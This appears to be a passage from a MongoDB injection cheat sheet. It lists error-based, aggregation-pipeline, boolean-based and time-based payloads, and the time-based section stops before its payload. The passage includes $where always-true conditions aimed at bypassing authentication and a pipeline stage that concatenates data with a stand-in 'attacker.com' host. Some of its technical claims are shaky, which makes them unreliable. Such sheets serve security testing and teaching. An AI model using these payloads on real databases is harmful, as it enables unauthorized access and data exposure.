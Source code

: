 ### Error-Based MongoDB Injection

- **Find Operation Error:** Causes an error in the find operation by injecting invalid BSON. Forces an error by including an invalid function (`undefined()`), which can help in understanding the error handling and possible error messages.

```
db.collection.find({ $where: "this.field == 'value' && undefined()" })
```

- **Projection Manipulation Error:** Injecting a malformed projection to cause an error. This payload injects an invalid operator in the projection, causing a parsing error.

```
db.collection.find({}, { "field": { $invalidOperator: "" } })
```

### Union-Based MongoDB Injection (Equivalent)
Since MongoDB doesn't support SQL or UNION operations, there isn't a direct equivalent of Union-Based SQLi. However, aggregation pipelines can sometimes be abused similarly if the input is improperly sanitized.

- **Aggregation Pipeline Manipulation:** Injects a stage into an aggregation pipeline to alter its behavior. Manipulates the pipeline to add a potentially malicious field, concatenating values to leak information.

```
db.collection.aggregate([
    { $match: { "field": "value" } },
    { $group: { _id: null, total: { $sum: 1 } } },
    { $addFields: { malicious: { $concat: ["$total", ".attacker.com"] } } }
])
```

### Boolean-Based MongoDB Injection

- **Boolean Condition Manipulation:** Manipulates a query with a Boolean condition to determine behavior based on truthy/falsy values. Evaluates to true for all documents, effectively bypassing authentication or access controls if the application doesn't properly handle this.

```
db.collection.find({ $where: "this.username == 'admin' || 1==1" })
```

- **Always True Injection:** A query condition that always evaluates to true, often bypassing security checks. This will match all documents because the `$where` clause always returns true, making any prior conditions ineffective.

```
db.collection.find({ "username": { $ne: "admin" }, $where: "1 == 1" })
```

### Time-Based MongoDB Injection
MongoDB doesn’t have a direct equivalent to `SLEEP()` in SQL, but JavaScript execution can introduce delays.

- **JavaScript Delay Injection:** Introduces a delay in the query execution using JavaScript’s `sleep()` function. Forces a delay of 5 seconds to observe if the server’s response time is affected, confirming the vulnerability.
